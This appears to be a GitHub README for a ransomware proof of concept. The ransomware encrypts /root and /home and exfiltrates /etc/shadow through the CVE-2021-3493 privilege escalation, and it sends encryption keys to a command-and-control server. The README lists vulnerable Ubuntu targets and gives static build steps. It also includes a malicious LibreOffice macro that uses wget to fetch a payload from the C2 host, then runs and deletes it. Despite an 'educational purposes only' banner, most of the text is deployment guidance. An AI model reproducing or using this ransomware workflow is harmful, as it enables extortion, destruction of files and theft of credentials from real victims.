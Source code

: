 # Ransomware
> [!WARNING]
> EDUCATIONAL PURPOSES ONLY
>
>This project is intended solely for educational and research purposes in the context of cybersecurity training. It is designed to study and understand ransomware mechanics in a legal and controlled environment.
>
>DO NOT use this code for malicious purposes. Deploying ransomware on any system without explicit permission is illegal and can result in severe legal consequences.
>
>By using this project, you agree to abide by all applicable laws and take full responsibility for your actions. The author assumes no liability for any misuse.

## Description

This repository is a PoC of a ransomware that encrypts `*/root*` and `*/home*` directories and exfiltrates the `*/etc/shadow*` file using the CVE-2021-3493 vulnerability. It encrypts the file using AES and sends the AES key to the C2 server, where it is encrypted using RSA.

The target machine must meet the following requirements:
- Ubuntu 20.10
- Ubuntu 20.04 LTS
- Ubuntu 19.04
- Ubuntu 18.04 LTS
- Ubuntu 16.04 LTS
- Ubuntu 14.04 ESM

Additionally, the Linux kernel version must be < 5.11.

The original exploit can be found here: [CVE-2021-3493 exploit](https://github.com/briskets/CVE-2021-3493)

## Requirement

```bash
sudo apt update
sudo apt install wget make gcc libssl-dev xz-utils build-essential pkg-confi
pip instal -r requirements.txt
```
The execution of macros must be authorized, and the AppArmor sandbox for LibreOffice must be disabled.


## Generating RSA Keys
Before anything else, we need to generate our RSA key pair.

Run the following commands to create your private and public keys:
```bash
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:2048  
openssl rsa -pubout -in private.pem -out public.pem  
```

## Make the binary static
We need to build the libcurl library. Follow these steps:
```bash
wget https://curl.se/download/curl-8.12.1.tar.xz
tar xvf curl-8.12.1.tar.xz
cd  curl-8.12.1
CC=musl-gcc ./configure --disable-shared --enable-static --prefix=/tmp/curl --disable-ldap --disable-sspi --without-librtmp --disable-ftp --disable-file --disable-dict --disable-telnet --disable-tftp --disable-rtsp --disable-pop3 --disable-imap --disable-smtp --disable-gopher --disable-smb --without-libidn --without-ssl --without-nghttp2 --disable-mqtt --without-zlib --without-brotli --without-zstd --without-libpsl --without-libidn2 --disable-docs
make && make install
```
For simplicity, this build process is also defined in the Makefile.

## Malicious file
To deploy the ransomware, we will use a malicious file.odt that contains a malicious macro:
```vba
Sub Main
	Shell("bash -c 'wget http://{C2_SERVER_IP}:8000/ -O /tmp/not_a_malware && chmod +x /tmp/not_a_malware && /tmp/not_a_malware && rm /tmp/not_a_malware'")
End Sub
```
Check this link for instructions on how to add it: [LibreOffice Macro Exploit](https://exploit-notes.hdks.org/exploit/malware/libreoffice-macros/).

## Compiling
Simply run the following command to compile the project:
```bash
make SERVER_IP="{C2_SERVER_IP}"
```

## Demo
[!Demo](https://github.com/user-attachments/assets/36d123e0-5b12-43f4-bb25-d6675cae70b7)
